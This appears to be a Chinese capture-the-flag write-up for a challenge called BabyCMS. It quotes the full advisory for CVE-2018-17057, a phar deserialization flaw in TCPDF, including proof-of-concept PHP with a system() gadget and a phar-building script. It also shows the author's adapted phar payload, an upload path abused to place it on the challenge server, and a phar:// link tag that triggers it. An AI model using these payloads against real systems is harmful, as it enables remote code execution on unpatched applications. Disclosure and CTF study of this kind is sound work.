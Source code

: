 # BabyCMS

提示说了 TCPDF，这个库用的是 6.2.8 版本。

TCPDF 6.2.22之前版本中存在安全漏洞。攻击者可利用该漏洞反序列化任意数据[（link）](http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-201809-735)。

太好了（不是

```php
CVE-2018-17057: phar deserialization in TCPDF might lead to RCE
---------------------------------------------------------------

Affected products
=================

TCPDF <= 6.2.19

Background
==========

"Started in 2002, TCPDF is now one of the world's most active Open Source
projects, used daily by millions of users and included in thousands of CMS
and Web applications." - https://tcpdf.org/

"PHP library for generating PDF documents on-the-fly." -
https://github.com/tecnickcom/TCPDF

Description
===========

TCPDF allows the developers to insert HTML code inside the PDF, which will
be translated to a similar-looking design during PDF creation. For example
it is possible to insert basic HTML tags, such as "img" or "b" and have the
image and bold text placed in the output PDF.
The library allows also to include custom CSS rules by defining a "link"
tag, like the following:
<link type="text/css" href="style.css">

While it is a nice feature to have for the developer, it may cause problems
in case the PDF creation script is vulnerable to Cross-Site Scripting (or
"Code Injection") issues through which an attacker can inject arbitrary
HTML code. For example during an invoice creation, an attacker can use its
information written on the invoice to insert a malicious "link" tag
pointing to a local phar archive and trigger a PHP Object Injection through
the phar:// scheme once the web application reads that file.

Exploit
=======

In order to test this vulnerability it's enough to clone the project from
github and checkout a vulnerable version, such as 6.2.19:
git clone https://github.com/tecnickcom/TCPDF.git && cd TCPDF && git
checkout tags/6.2.19

After that it is possible to craft a phar archive containing a malicious
PHP Object and potentially trigger a RCE, here is a vulnerable code which
helps to reproduce the issue:
<?php
/*
*    title:     PHP object injection via phar:// deserialization
*    author:    polict
*    target:    TCPDF (https://github.com/tecnickcom/TCPDF) <= 6.2.19
*    setup:     git clone https://github.com/tecnickcom/TCPDF.git && cd
TCPDF && git checkout tags/6.2.19
*/

/* include vulnerable class (any PHP Object Injection gadget can be used,
see https://github.com/ambionics/phpggc) */
class Vulnerable {
    function __destruct() { system($this->hook); }
}

/* include the main TCPDF library */
require_once('tcpdf.php');
/* create new PDF document */
$pdf = new TCPDF(PDF_PAGE_ORIENTATION, PDF_UNIT, PDF_PAGE_FORMAT, true,
'UTF-8', false);
/* set document information */
$pdf->SetAuthor('polict');
$pdf->SetTitle('Proof of concept');
/* start pdf */
$pdf->AddPage();
/* create some HTML content */
$html = '<link type="text/css" href="phar://./poc.phar">';
/* insert the HTML content -- exploit will trigger here */
$pdf->writeHTML($html, true, false, true, false, '');
/* close and output PDF document */
$pdf->Output('poc.pdf', 'I');

In order to create the evil archive it's possible to use PHP:
<?php
$phar = new Phar('poc.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

$malicious_object = new Vulnerable();
$malicious_object->hook = "whoami";
$phar->setMetadata($malicious_object); // <-- inject the trigger

$phar->stopBuffering();

The archive will be in 'poc.phar'.

Note: This vulnerability depends on the developer using writeHTML() with
user-supplied input.

Author
======

This issue was discovered by polict (https://polict.net).

Timeline
========

17 august 2018:
—> report to developer

14 september 2018:
—> ping
<— released 6.2.20 (which re-introduced the vulnerability reported by Sam
Thomas, see
https://github.com/s-n-t/presentations/blob/master/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It.pdf
)
—> ping about re-introduction of old vulnerability
<— released 6.2.22 with fix for both
MITRE assigned CVE-2018-17057

17 march 2019:
public release
```

这个垃圾网站可以通过 `http://111.186.57.85:30042/index.php/Home/Index/xls` 和 `http://111.186.57.85:30042/index.php/Home/Index/csv` Dump 数据。但是，这两个接口的路径都是写死的——没办法直接把 flag 打印出来。

> 可惜

根据 Hint 1: tcpdf，他有一个 `/pdf` 接口，直接通过 HTML 生成 PDF。

这个 tcpdf 有个反序列化漏洞，可以任意执行 phar。

那么，我们就开始生成：

```php
<?php
$phar = new Phar('poc.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

$malicious_object = new Vulnerable();
$malicious_object->hook = "echo flag";
$phar->setMetadata($malicious_object); // <-- inject the trigger

$phar->stopBuffering();
>
```

构造好了这个 phar，但是要把它放到服务器上才能用。遗憾的是，服务器关于上传部分的代码被注释掉了。

好奇怪…按理说这里应该就这种攻击方式了。但是找不到办法去传入 phar。

捏着鼻子把 baijunyao 的代码跟文档读了一遍。然後跟「魔改版」diff 了一下。

几乎一行新代码没加，倒是把原来的代码 Comment 了一大堆。

> 你这不叫「魔改」，叫「阉割」

不过，这道题里割掉了这一个 `_empty` 方法，导致简单的任意模版调用不可行了。

```php
    /**
     * 拦截空方法 自动加载html
     * @param  string $methed_name 空方法
     */
    // Sorry for this...
    // public function _empty($methed_name){
    //     $this->display($methed_name);
    //     exit(0);
    // }
```

新加的代码，只有一行：

![image-20201011163237637](notes.assets/image-20201011163237637.png)

```
    public function __toString()
    {
        file_put_contents("step4", "data");
        return $this->serializeToXml();
    }
```

翻了一下原仓库，是没有这个更动的。

> 五年来没动过；
>
> > 尽管这行代码怎么看都不像正常功能代码；
> >
> > 但这个作者的狂乱代码风格让我不禁有些怀疑；
> >
> > > 已经被他所有标点符号都用分号（竟然还是中文分号！）代替的文风洗脑了；

换言之，如果我们调用一次这个类型的 `__toString` 魔法方法，就会在当前目录下创建一个 `step4` 文件，并向其中写入 `data`。

那么该怎么调用呢？Static 中有个 Umeditor Example。

> 这种东西居然能打包进生产环境？

把 phar 放进来：

```
http://111.186.57.85:30042/Public/statics/umeditor1_2_3/php/upload/20201012/16024844906165.gif
```

得到 URL：

`phar://../../Public/statics/umeditor1_2_3/php/upload/20201012/16024844906165.gif`

构造 HTML：

```html
<link type="text/css" href="phar://../../Public/statics/umeditor1_2_3/php/upload/20201012/16024844906165.gif">
```

就可以执行了。

唯一的问题就是：怎么找到那个 `__destruct` 中 `echo` 的 Vulnerable 函数。

大概要通过一堆调用链来利用吧…但是我不会…